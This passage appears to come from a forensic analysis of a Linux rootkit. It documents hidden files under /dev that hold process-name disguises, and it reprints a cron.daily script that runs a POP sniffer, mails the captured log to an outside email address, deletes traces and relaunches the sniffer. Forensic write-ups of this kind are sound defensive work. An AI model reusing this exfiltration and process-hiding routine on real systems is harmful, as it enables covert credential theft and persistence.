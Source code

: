 \vspace{1em}

The file \texttt{/dev/.libpt} contained a string dictionary leveraged by the malware to mask its presence in the system process table:

\vspace{1em}

\begin{lstlisting}[style=terminal]
dnsquery
-bash
linux
sysinit
db
identd
plogd
screen
ecko
popclean
\end{lstlisting}

\vspace{1em}

Likewise, the file \texttt{/dev/.libtp} defined simulated process names assigned to resident background jobs:

\vspace{1em}

\begin{lstlisting}[style=terminal]
 -bash
linux
dnsquery
sysinit
identd
plogd
db
screen
.tp
popclean
\end{lstlisting}

\vspace{1em}

Mirroring this structure, \texttt{/dev/.libtr} duplicated the cloaking aliases for active interception modules:

\vspace{1em}

\begin{lstlisting}[style=terminal]
-bash
linux
dnsquery
sysinit
identd
plogd
db
screen
.tp
popclean
\end{lstlisting}

\vspace{1em}

These files provided predefined simulation masks read dynamically by other malicious executables during execution.

The script scheduled under \texttt{/etc/cron.daily/dnsquery} contained the following routine:

\vspace{1em}

\begin{lstlisting}[style=terminal]
#!/bin/sh
cd /usr/lib/
./popclean -r pop.log > test
mail eckosniffer@yahoo.com -s "Sniff $(uname -a)" < test
kill -9 `/sbin/pidof /usr/lib/popclean`
rm -rf test pop.log
A=$PATH
export PATH=/usr/lib/
popclean -w pop.log &
export PATH=$A
\end{lstlisting}

